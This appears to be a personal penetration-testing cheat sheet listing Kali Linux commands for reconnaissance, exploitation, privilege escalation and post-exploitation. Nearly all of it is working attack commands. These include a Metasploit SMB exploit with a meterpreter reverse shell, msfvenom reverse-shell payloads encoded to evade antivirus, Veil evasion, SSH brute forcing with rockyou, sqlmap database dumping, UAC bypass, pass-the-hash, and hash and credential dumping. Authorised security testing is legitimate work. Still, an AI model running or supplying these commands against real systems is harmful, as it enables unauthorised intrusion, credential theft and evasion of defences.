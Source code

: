 This is a penetration testing cheat sheet I had previously put together for myself. Many of these tools are found natively within Kali Linux.


# 1. Reconnaissance
Nmap Scan
```bash
# Discovery scan
echo "10.20.160.20-160" >> scope.txt
nmap -Pn --open -n -vvv --top-ports 15 -T4 -oA discovery -iL scope.txt
# Aggressive Scan
grep "Status: Up" discovery.gnmap | cut -d " " -f2 > livehosts.txt
nmap -Pn --open -n -vvv -p- -A -T4 -oA aggressive -iL livehosts.txt
```

Nessus (Tenable) Scan
```bash
# Runs on port 8834
```

Nikto Scan
```bash
nikto -host 10.20.160.135
```

Dirbuster Scan
```bash
dirbuster
# /usr/share/dirbuster/wordlists
```

Wordpress Scan
```
wpscan --url www.example.com
```


# 2. Exploitation
searching metasploit modules
```bash
cd /usr/share/metasploit-framework/modules
grep “centos” * -ir
```

searchsploit

msfconsole
```bash
use exploit/windows/smb/ms08_067_netapi set RHOST [IP]
set PAYLOAD windows/meterpreter/reverse_tcp set LHOST [IP]
run
search
show options
show payloads
sessions
sessions -i 1
exploit
check
Search suggester (after getting meterpreter shell)
```

meterpreter
```bash
background
search -f *proof.txt*
sysinfo
getuid
```

pivoting
```bash
meterpreter> run autoroute
meterpreter> portfwd
meterpreter> run netenum -ps –r [IP Range]
```

msfvenom
```bash
msfvenom -a x86 --platform windows -p windows/shell/reverse_tcp LHOST=[your IP address] LPORT=4444 -b "\x00" -e
x86/shikata_ga_nai -f exe -o payload.exe
msfvenom -p php/reverse_php lhost=[your IP address] lport=4444 -f raw > payload.php
```

antivirus
```bash
cd ~/Tools/Veil
./Veil.py
```

brute force
```bash
# think anything with a login prompt (SSH, FTP, Telnet, Web forms, RDP sessions, database, SMNP strings, ...)
# wordlists (Rockyou.txt)
medusa -h 192.168.1.200 -u msfadmin -P /usr/share/wordlist/rockyou.txt -M ssh
```

sqlmap
```bash
sqlmap --dbs -u ‘url and query’ --cookie=’insert cookies here’ --level=5 --risk=3 -p from --dbms=mysql
--dbs : dump all databases
--level=5 : highest level
--risk=3 : highest risk
-p from : keyword to test
--dbms=mysql : type of database - include this!
```


# 3. Privelege Escalation
Metasploit
```bash
# only works when you are Administrator
# named pipes
# With SYSTEM level access, an attacker can request the hash of each token on the system
meterpreter> getsystem

# local exploits
msf> use exploit/windows/local

# Note about local exploits: make sure the exploit target, exploit payload, and meterpreter architectures all match your system’s architecture. (see pwn3 solution video for example)
```

bypassuac
```bash
msf> use exploit/windows/local/bypassuac
```

pass the hash
```bash
# gather hashes first
pth-winexe -U [Username]%[Hash or Password] //[Target IP Address] cmd.exe
```


# 4. Other Post Exploitation
Get credentials, passwords, hashes:
```bash
# gather credentials
use post/windows/gather/credentials/gpp
set session [Session # of your shell]
exploit

# hashdump
meterpreter> run post/windows/gather/smart_hashdump

# mimikatz
```

Basic Enumeration Shell Commands​:
```bash
whoami
ipconfig /all
netstat -ano
net accounts
net localgroup administrators
net share
systeminfo | findstr /B /C:"OS Name" /C:"OS Version”◦ set logonserver
gpresult /r
```

Search for insecure password storage files​:
```bash
dir /s *pass* == *cred* == *vnc* == *.config*
findstr /s /i “password” *.*
```

Browse user and network file shares
- My Documents
- PowerView’s ShareFinder

Search the registry for keywords​:
```bash
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
```

Searching for config files​:
```bash
c:\sysprep.inf
c:\sysprep\sysprep.xml
%WINDIR%\Panther\Unattend\Unattended.xml ◦ %WINDIR%\Panther\Unattended.xml
```